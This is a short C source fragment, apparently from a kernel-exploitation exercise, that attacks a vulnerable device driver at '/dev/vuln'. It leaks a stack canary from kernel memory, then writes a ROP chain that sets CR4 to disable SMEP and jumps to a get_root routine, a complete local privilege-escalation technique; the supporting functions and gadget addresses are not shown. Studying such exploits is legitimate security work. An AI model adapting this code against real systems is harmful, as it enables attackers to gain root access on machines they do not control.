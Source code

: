 ```C

int main()
{
	char buf[0x100];
	unsigned long canary;
	int fd=open("/dev/vuln",O_RDWR);

	init_tf_work();
	read(fd,buf,140);
	canary=*(unsigned long*)(buf+100);
	printf("canary:0x%llx\n",canary);

	//trigger smep protect:
	//
	//*(unsigned long*)(buf+124)=(void*)&trigger_smep;
	//write(fd,buf,144);

	unsigned long rop_chain[]={
		pop_rdi_ret,
		0x6f0,
		mov_cr4_rdi_pop_rdp_ret,
		tf.rsp,
		(void*)&get_root
	};
	memcpy(buf+124,rop_chain,sizeof(rop_chain));
	write(fd,buf,sizeof(buf));
	close(fd);

	return 0;
}
```

